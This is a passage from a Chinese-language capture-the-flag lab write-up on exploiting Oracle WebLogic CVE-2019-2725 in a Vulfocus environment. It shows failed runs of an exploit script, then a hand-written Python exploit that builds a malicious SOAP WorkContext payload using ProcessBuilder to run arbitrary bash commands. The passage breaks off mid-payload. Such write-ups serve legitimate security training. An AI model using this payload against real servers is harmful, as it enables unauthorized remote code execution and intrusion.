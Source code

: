- **依赖问题**: urllib3版本兼容性问题，新版本urllib3的导入路径发生了变化
- **解决方案**: 移除SSL警告禁用代码，或使用更简单的手工SOAP攻击方法

**最终解决方案 - 使用简化的手工SOAP攻击**:

由于依赖问题，我们采用最直接的手工SOAP攻击方法，这也是CVE-2019-2725最核心的利用技术。

```bash
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -v

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/weblogic_cve_2019_2725_exploit.py", line 11, in <module>
    from urllib3.packages.urllib3.exceptions import InsecureRequestWarning
ModuleNotFoundError: No module named 'urllib3.packages'
                                                                                                                                                 
┌──(kali㉿kali-attacker)-[~/ctf-games/fofapro/vulfocus]
└─$ python3 weblogic_cve_2019_2725_exploit.py -t http://10.37.133.3:7001 -c "id"

Traceback (most recent call last):
  File "/home/kali/ctf-games/fofapro/vulfocus/weblogic_cve_2019_2725_exploit.py", line 11, in <module>
    from urllib3.packages.urllib3.exceptions import Insec
```

##### 2.3 手工构造SOAP攻击

**创建恶意SOAP请求**:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
"""
WebLogic CVE-2019-2725 手工利用脚本
"""

import requests
import base64
import sys

def exploit_cve_2019_2725(target_url, command):
    """
    手工构造CVE-2019-2725攻击载荷
    """
  
    # 恶意SOAP载荷模板
    soap_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
        <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
            <java>
                <object class="java.lang.ProcessBuilder">
                    <array class="java.lang.String" length="3">
                        <void index="0">
                            <string>/bin/bash</string>
                        </void>
                        <void index="1">
                            <string>-c</string>
                        </void>
                        <void index="2">
                            <string>{command}</string>
                        </void>
                    </array>
                    <void method="start"/>
                </object>
            </java>
```